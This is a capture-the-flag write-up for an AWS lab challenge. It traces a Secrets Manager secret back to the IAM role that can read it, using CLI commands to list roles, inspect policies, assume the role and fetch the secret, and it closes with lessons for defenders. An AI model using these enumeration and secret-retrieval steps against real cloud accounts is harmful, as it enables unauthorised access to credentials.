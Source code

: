 # Backwards

## Challenge Overview:
Sometimes cloud penetration tests begin with an interesting asset like a secret, instead of an IAM identity. This challenge teaches how to trace back from such a finding and identify who has access to it. In this case, our goal is to determine which IAM role has access to the secret stored at:

```
arn:aws:secretsmanager:us-west-2:xxxxxxxxxxxx:secret:DomainAdministrator-Credentials-XXXXXX
```

## Step-by-Step Process:

### a. Configure the Profile
Set the AWS profile to `cloudfoxable` which corresponds to the ctf-starting-user.

```bash
set AWS_PROFILE=cloudfoxable
```

### b. Verify Current Identity
Run:
```bash
aws sts get-caller-identity
```
Expected output should show the IAM user as `user/ctf-starting-user`.

### c. List Roles
Search all IAM roles to look for attached policies.
```bash
aws iam list-roles
```

### d. Identify Attached Policy
After analyzing the roles, the one that stands out is `Alexander-Arnold`. Check the policies attached to it:

```bash
aws iam list-attached-role-policies --role-name Alexander-Arnold
```
**Output:**
```json
{
  "AttachedPolicies": [
    {
      "PolicyName": "corporate-domain-admin-password-policy",
      "PolicyArn": "arn:aws:iam::xxxxxxxxxxxx:policy/corporate-domain-admin-password-policy"
    }
  ]
}
```

### e. Get the Policy Document
Retrieve and inspect the contents of the policy.

```bash
aws iam get-policy-version --policy-arn arn:aws:iam::xxxxxxxxxxxx:policy/corporate-domain-admin-password-policy --version-id v1
```
**Output:**
```json
{
  "PolicyVersion": {
    "Document": {
      "Statement": [
        {
          "Action": [
            "secretsmanager:GetSecretValue"
          ],
          "Effect": "Allow",
          "Resource": [
            "arn:aws:secretsmanager:us-west-2:xxxxxxxxxxxx:secret:DomainAdministrator-Credentials-ADrDZ9"
          ]
        }
      ],
      "Version": "2012-10-17"
    },
    "VersionId": "v1",
    "IsDefaultVersion": true
  }
}
```
This reveals that `Alexander-Arnold` role has `secretsmanager:GetSecretValue` permission on the secret.

### f. List the Secret
Get the full name and version of the secret:
```bash
aws secretsmanager list-secrets
```
Look for the name: `DomainAdministrator-Credentials` and confirm the suffix `ADrDZ9`.

### g. Configure Role Assumption Profile
Edit the AWS CLI config to assume the `Alexander-Arnold` role:
```ini
[profile alexander-arnold]
region = us-west-2
role_arn = arn:aws:iam::xxxxxxxxxxxx:role/Alexander-Arnold
source_profile = cloudfoxable
```

### h. Retrieve the Secret
Use the new profile to access the secret:
```bash
aws secretsmanager get-secret-value --secret-id DomainAdministrator-Credentials --profile alexander-arnold
```
**Output:**
```json
{
  "ARN": "arn:aws:secretsmanager:us-west-2:xxxxxxxxxxxx:secret:DomainAdministrator-Credentials-ADrDZ9",
  "Name": "DomainAdministrator-Credentials",
  "SecretString": "FLAG{backwards::IfYouFindSomethingInterestingFindWhoHasAccessToIt}"
}
```

## Final Flag:
```
FLAG{backwards::IfYouFindSomethingInterestingFindWhoHasAccessToIt}
```

---

## Reflection

### What was your approach?
I began with the secret ARN and worked backwards to enumerate IAM roles and their attached policies. Using the AWS CLI, I manually correlated policy documents with permissions on the secret.

### What was the biggest challenge?
Identifying the correct role among many, and ensuring the secret permission was explicitly granted.

### How did you overcome it?
By examining each role's policy document until I found one that matched the required secret access.

### What led to the breakthrough?
Manually inspecting the `Alexander-Arnold` role’s attached policy revealed `secretsmanager:GetSecretValue` for the secret in question.

### How can defenders apply this lesson?
- Restrict sensitive secrets access via least-privilege IAM policies.
- Periodically audit secrets access policies.
- Use tags and names that avoid revealing sensitive info.

---

